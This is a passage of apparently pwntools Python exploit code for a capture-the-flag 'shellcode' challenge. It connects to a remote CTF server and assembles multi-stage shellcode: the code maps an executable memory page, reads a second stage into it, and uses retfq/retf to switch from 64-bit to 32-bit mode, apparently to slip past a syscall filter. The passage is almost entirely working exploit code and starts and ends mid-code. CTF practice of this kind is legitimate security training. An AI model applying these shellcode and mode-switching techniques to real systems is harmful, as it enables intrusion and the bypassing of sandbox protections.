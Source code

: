 ```python
mov eax, 0x8048040;
push eax;
retf;
nop;
nop;
nop;
nop;
nop;
nop;
nop;
nop;
nop;
nop;
nop;
nop;
nop;
nop;
nop;
'''

shellcode2 = asm(shellcode2)


#p = process('./shellcode')
p = remote('pwn.archive.xdsec.chall.frankli.site', 10019)
#p = remote('172.17.0.2', 6666)
shellcode1 = '''
mov rsi, 0x100;
mov rdi, 0x8048000;
mov edx, 7;
mov ecx, 0x22;
mov r8d, 0xffffffff;
mov r9d, 0;
mov rax, 9;
syscall;
mov rdi, 0;
mov rsi, 0x8048000;
mov rdx, 0x200;
mov rax, 0;
syscall;
mov rax, 0x23;
push rax;
mov rax, 0x8048000;
push rax;
retfq;
nop;
nop;
nop;
nop;
nop;
'''

shellcode1 = asm(shellcode1, arch = 'amd64')

shellcode3 = '''
mov rdi, 0;
mov rdi, rbp;
mov rsi, rsp;
mov rdx, 0x60;
mov rax, 0;
syscall;
mov rdx, 0x60;
mov rdi, 1;
```